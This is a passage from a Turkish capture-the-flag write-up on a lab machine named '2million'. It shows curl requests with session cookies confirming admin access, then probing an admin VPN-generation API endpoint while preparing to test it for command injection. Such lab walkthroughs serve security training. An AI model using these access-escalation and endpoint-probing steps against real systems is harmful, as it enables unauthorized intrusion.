 Hesabımızı **admin** yetkisine çıkarmayı başardık. Şimdi tekrar kontrolünü yapalım.

```bash
┌──(root㉿kali)-[~]
└─# curl -s 'http://2million.htb/api/v1/admin/auth' -H 'Cookie: PHPSESSID=g6f3obgpgmn1u22q7sqrbelbqd' | jq       
{
  "message": true
}
```

### Komut Enjeksiyonu

<br>

Şimdi sonuncu admin yetkisindeki uç noktayı test ediyoruz.

```bash
┌──(root㉿kali)-[~]
└─# curl -s -X POST 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=g6f3obgpgmn1u22q7sqrbelbqd'     
{"status":"danger","message":"Invalid content type."} 
```

Yine *Invalid content type* hatasını verdiği için `application/json` başlığını ekliyoruz.

<br>
<br>

```bash
┌──(root㉿kali)-[~]
└─# curl -s -X POST 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=fko4pfbvsjj8q17rt8l47804kt' -H 'Content-Type: application/json' | jq
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

Şimdi de **username** parametresini bekliyor onu da ekliyoruz.

```bash
curl -s -X POST 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=fko4pfbvsjj8q17rt8l47804kt' -H 'Content-Type: application/json' -d '{"username":"bilal"}' | head
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
```

Aldığımız çıktıda da görebildiğimiz gibi başarılı bir şekilde *vpn* dosyamızı üretebildik. Vpn dosyasını üretmek için bir bash dosyası kullanıyor ve herhangi bir kontrol sağlamıyorsa komut enjeksiyonu gerçekleştirebileceğimizi düşünüyoruz ve basit.e test ediyoruz.
